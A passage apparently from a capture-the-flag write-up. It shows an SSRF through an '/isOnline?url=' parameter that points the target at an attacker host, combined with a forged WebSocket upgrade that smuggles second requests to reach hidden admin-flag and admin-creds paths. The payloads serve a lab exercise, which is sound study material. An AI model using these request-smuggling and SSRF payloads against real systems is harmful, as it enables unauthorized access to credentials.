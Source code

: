 ```
```

Run the server
```
python server.py 5555
```

Then, send this request via BurpSuite:

```
GET /isOnline?url=http://attack_ip:5555 HTTP/1.1
Host: target_ip:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Sec-WebSocket-Version: 500
Referer: http://target_ip:8080/services.html
Connection: keep-alive
Priority: u=4
Upgrade: websocket

GET /trace HTTP/1.1
Host: target_ip:8080
```

Found two new directories:
`admin-creds`
`admin-flag`

Now try:
```
GET /admin-flag HTTP/1.1
Host: target_ip:8080
```

<img width="728" alt="6" src="https://github.com/user-attachments/assets/dbb4757b-4592-43c5-951f-edf487f6c766" />


This returns the first flag.

Next:

```
GET /isOnline?url=http://attack_ip:5555 HTTP/1.1
Host: target_ip:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Sec-WebSocket-Version: 500
Referer: http://target_ip:8080/services.html
Connection: keep-alive
Priority: u=4
Upgrade: websocket

GET /admin-creds HTTP/1.1
Host: target_ip:8080
```
